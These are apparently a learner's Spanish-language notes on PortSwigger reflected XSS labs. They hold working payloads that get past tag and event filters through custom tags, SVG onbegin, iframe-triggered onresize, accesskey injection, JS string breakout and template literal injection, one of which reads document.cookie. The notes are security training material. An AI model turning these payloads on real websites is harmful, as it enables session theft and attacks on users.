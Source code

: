 # XSS Reflejado 

Tags: #XSS-Reflected  #PortSwigger #JavaScript #Practitioner #svg #Etiquetas #iframes #Intruder #BurpSuite #JavaScript 

## XSS reflejado en HTML con etiquetas bloqueadas

* [Cheat sheet XSS](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

```javascript 
// Para evadir se debe de utilizar ciertas etiquetas y ciertos eventos permitidos

1. Las etiquetas se encuentran haciendo un ataque de diccionario en el 'Intruder' en BurpSuite
	<test>

2. Despues se debe de conocer los eventos existentes para la etiqueta haciendo un ataque de diccionario 
	<body desconozco=1>

3. Al encontrar la etiqueta y su evento se puede hacer lo siguiente:
	<body onresize=print()>    // Forma manual 
	<iframe src="http://web.com/?search=<body onresize=print()>"></iframe>    // Se debe de utilizar 'iframes'
	<iframe src="http://web.com/?search=<body onresize=print()>" onload=this.style.width='100px'></iframe>         // Hacer que automáticamente haga un resize con el cambio de tamaño 
```

## XSS reflejado con solo etiquetas personalizadas 

```javascript 
// Para evadir se debe de utilizar ciertas etiquetas y ciertos eventos permitidos pero de forma personalizada 
	<etiqueta>Hi                     // Etiqueta personalizada 
	<etiqueta onfocus=alert(0)>Hi    // Cuando se pase el cursor y se seleccione se ejecute el alert
	<etiqueta onfocus=alert(0) tabindex=1>Hi

	//PoC 1
	<script>
		location = 'https://google.com';     
	</script>


	//PoC2 pero de esta manera no se hará automaticamente  
	<script>
		location = 'http://web.com/?search=<etiqueta onfocus=alert(0) tabindex=1>Hi';
	</script>


	//PoC3 de manera automaticamente colocando un id
	<script>
		location = 'http://web.com/?search=<etiqueta id=identificador onfocus=alert(document.cookie) tabindex=1>#identificador';
	</script>


Notas:
	1. El atributo global 'tabindex' indica si su elemento puede ser enfocado, y si participa en la navegación secuencial del teclado.
	2. Location te redirige a una web especifica
	3. Cuando en la url el navegador mira un '#' lo que hace es ir a ese elemento cuyo valor de identificador sea el que se indica 
```

## XSS reflejado con etiquetas SVG permitidas 

```javascript 
1. Las etiquetas se encuentran haciendo un ataque de diccionario en el 'Intruder' en BurpSuite
	<test>

2. Despues se debe de conocer los eventos existentes para la etiqueta haciendo un ataque de diccionario 
	<svg><animateTransform a=1>   // En el intruder de Burpsuite, el espacio se debe de representar conmo %20

3. Al encontrar la etiqueta y su evento se puede hacer lo siguiente:
	<svg><animateTransform onbegin=1>
	<svg><animateTransform onbegin=alert(0)>

Notas:
	1. 'Onbegin' es cuando la animaciónapenas esta cargando 
```

## XSS reflejado en etiqueta canonical 

```javascript 
// Para completar la tarea, se debe asumir que el usuario presionara las siguientes combinaciones de teclas dependiendo el SO: 'ALT+SHIFT+X, CTRL+ALT+X, ALT+X'

	http://web.com/?'   // Se puede colocar un ?' para cerrar la comilla que hay en el código y colocar algo despues 
	http://web.com/?'test
	
	http://web.com/?'accesskey='x'      // Ingresar eventos que ayuden a ejecutar instrucciones. Esto se hará por medio del 'accesskey' 

	http://web.com/?'accesskey='x'onclick='alert(0)    // Se utiliza el evento 'onclick' para cuando se ejecute el atajo, pasará lo que se indique. Se debe de cerrar la comilla en el códgo  


Notas:
	1. AccessKey establece la pulsación de teclado medienate el cual un usuario puede presionar para saltar a ese elemento 
	2. Si estamos en Linux y Chrome se presiona 'ALT+X' para que pase algo. 
```

## XSS reflejado en string JS con comilla y backslash escapados 

```javascript 
// Se debe buscar la forma de escapar ya que gracias a la sanitización se escapan las comillas que se ingresan automaticamente 

	test'; var prueba = 'se tensa   // Como hay sanitización el codigo agregará un \ para escapar las comillas que se ingresen  
	test\'; var prueba = \'se tensa  // Aunque se escapen manualmente las comillas, en el código se agregaran dos \ ya que existe sanitización

	</script><h1>hi</h1>            // Cerrar la etiqueta script y agregar una nueva etiqueta  
	
	</script><script>alert(0)</script>
```

##  XSS reflejado  en JS con comillas, corchetes y comilla escapada 

```javascript 
// Se debe buscar la forma de escapar ya que gracias a la sanitización se escapan las comillas que se ingresan automaticamente 

	test'         // Ingresar un comilla 
	test\'        // Escapar manualmente la comilla 
	test\'; var = 'se tensa       

	test\'+alert(0);//     // A la variable del código se le suma una ventana emerente y se le comenta 
```

## XSS en template literal con caracteres unicode escapados 

```javascript 
// Para este ejercicio esta sanitizado lo siguiente: '"`\<> . Cuando se esta utilizando `` lo que va adentro es ${var}, en donde se pueden hacer operatorias en Javascript 

	${alert(0)}
```